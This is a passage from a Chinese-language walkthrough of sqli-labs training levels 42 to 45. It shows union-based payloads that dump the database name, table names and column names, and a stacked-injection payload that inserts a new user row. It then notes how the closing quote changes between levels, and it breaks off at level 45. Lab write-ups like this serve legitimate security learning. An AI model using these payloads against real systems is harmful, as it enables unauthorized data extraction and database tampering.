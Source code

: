 [![BEQfk4.jpg](https://s1.ax1x.com/2020/10/23/BEQfk4.jpg)](https://imgchr.com/i/BEQfk4)

3.爆库

`-1' union select 1,database(),3 #`

4.爆表

`-1' union select 1,group_concat(table_name),3 from information_schema.columns where table_schema='security' #`

5.爆列名
`-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`

所以说到这里就发现用户表是users了

那么我们就用堆叠注入向其中插入一条用户数据

6.插数据

`-1';insert into users values('17','yep','yep') #`

虽然显示的是错误画面，但是！想要的数据已经被插入进去了√

结果请自行查看数据库
***
# less 43(同上)
## 原理

相比于42改变闭合方式

## 步骤
将闭合方式改为')

其余步骤同上一题，不再赘述


***
# less 44(POST基于报错的字符型堆叠盲注)
## 原理

与42的唯一区别就是没有报错信息，需要自己尝试，不过也没有什么区别，发现42题用到的语句照样使用


## 步骤

闭合方式为'单引号，剩余的爆库查表查列名一样，最后再用堆叠注入插进一条数据

over

***
# less 45(POST基于报错的字符型堆叠盲注)
## 原理
